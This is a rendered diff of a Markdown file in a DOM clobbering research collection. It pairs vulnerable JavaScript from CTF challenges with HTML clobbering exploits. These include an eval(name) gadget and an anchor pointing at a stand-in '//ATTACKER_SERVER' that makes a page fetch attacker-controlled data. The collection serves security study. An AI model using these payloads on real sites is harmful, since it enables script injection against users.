

Before and after one commit to jackfromeast/dom-clobbering-collection, a Markdown page: existing-gadgets.md, 2 parts joined by grey strips. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
[KnownGagdet] Update the known gadgets markdown file

````diff
--- a/existing-gadgets.md
+++ b/existing-gadgets.md
@@ -62,69 +79,49 @@ addInfos()
 ```
+
+#### Exploit
 ```
 <a id=SETTINGS data-timezone=aaa data-location=eval(name)></a>
 <a id=SETTINGS name=check></a>
 <a id=showInfos></a>
 ```
 
+
+### AmateursCTF 2023 Sanity
+
+#### Reference
 + https://ctftime.org/writeup/37463
+
+#### Vulnerable Code
 ```
-async function loadBody() {
-    let extension = null;
-    if (window.debug?.extension) {
-        let res = await fetch(window.debug?.extension.toString());
-        extension = await res.json();
-    }
+<script>
+  function loadBody() {
+      let extension = null;
+      if (window.debug?.extension) {
+          let res = await fetch(window.debug?.extension.toString());
+          extension = await res.json();
+      }
+  }
+  loadBody();
+</script>
 ```
+
+#### Exploit
 ```
 <a id="debug"></a><a id="debug" name="extension" href="//ATTACKER_SERVER"></a>
 ```
 
+### Wizer CTF #14
 
+
+#### Reference:
 + https://wizer-ctf.com/writeups/ctf14.html
+
+#### Vulnerable Code
 ```
-export default function Home() {
-  const router = useRouter();
-  const { yourName, yourAvatar, transferTo, pointsToTransfer } = router.query;
-  const isNameProvided = typeof yourName === 'string' && yourName.length > 0;
-  React.useEffect(() => {
-    if (router.isReady && isNameProvided) {
-      // Sanitize your name and avatar image
-      const name = DOMPurify.sanitize(yourName);
-      const avatar = yourAvatar ? DOMPurify.sanitize(String(yourAvatar)) : '<img src="/favicon.png" width="20px">';
-      document.getElementById('name').innerText = name;
-      document.getElementById('avatar').innerHTML = avatar;
-      if(window.transferBalance && transferTo && pointsToTransfer) {
-        var formData = JSON.stringify(router.query.serializeArray());
-        const response = $.ajax({type: "POST", url: '../api/transferPoints', async: false,
-          data: formData, success: function(){}, dataType: 'json',
-          contentType : 'application/json'})
-        if(response.status === 200) { alert(`${name}, you’ve successfully transfered ${pointsToTransfer} +
-        points to account ID ${transferTo}`); }
-        else { $("#error").text(decodeURIComponent(response.responseText)); }
-      }
-    }
-  }, [router.isReady, isNameProvided]);
-
-  return (
-    <main className="text-center mt-5">
-      <h6>
-        <span id="avatar"></span>&nbsp;
-        <span>Hello <span id="name"></span> what would you want to do next?</span>
-      </h6>
-      <h3 className="h3 mb-3 fw-normal">Points management</h3>
-      <h5 className="h5 mb-2 fw-normal" style={{cursor: 'pointer'}}
-        onClick={() => { router.push('/transfer')}}>Transfer Points</h5>
-      <h5 className="h5 mb-2 fw-normal" style={{cursor: 'pointer'}}
-        onClick={() => { router.push('/buy')}}>Buy points</h5>
-      <h5 className="h5 mb-2 fw-normal" style={{cursor: 'pointer'}}
-        onClick={() => { router.push('/trends')}}>Points spending trends</h5>
-      <div className={styles.footer}>
-        Powered by <Image src="/wizer.svg"
-          alt="Wizer"
-          width={200}
-          height={100}
-          className={styles.logo} />
-      </div>
-    </main>
-  )
+<script>
+if(window.transferBalance && transferTo && pointsToTransfer) {
+  var formData = JSON.stringify({"a": transferTo, "b": pointsToTransfer});
+  const response = $.ajax({type: "POST", url: '../api/transferPoints', async: false,
+    data: formData, success: function(){}, dataType: 'json',
+    contentType : 'application/json'})
 }
@@ -146,8 +156,21 @@ function reloadRecaptchaScript(index) {
     loadScript(src)
   }, 1000)
 }
+reloadRecaptchaScript();
+</script>
 ```
 
+#### Exploit
+```
+```
+
+
+### ReCAPTCHA for the rescue
+
+#### Reference
 + https://gist.github.com/terjanq/e2198440c4fdfbdec43e921b600d4a1d#recaptcha-for-the-rescue
 + https://ctftime.org/writeup/23580
+
+
+#### Vulnerable Code
 ```
````
Also changed, not shown: other parts of existing-gadgets.md (+108 -23 lines).
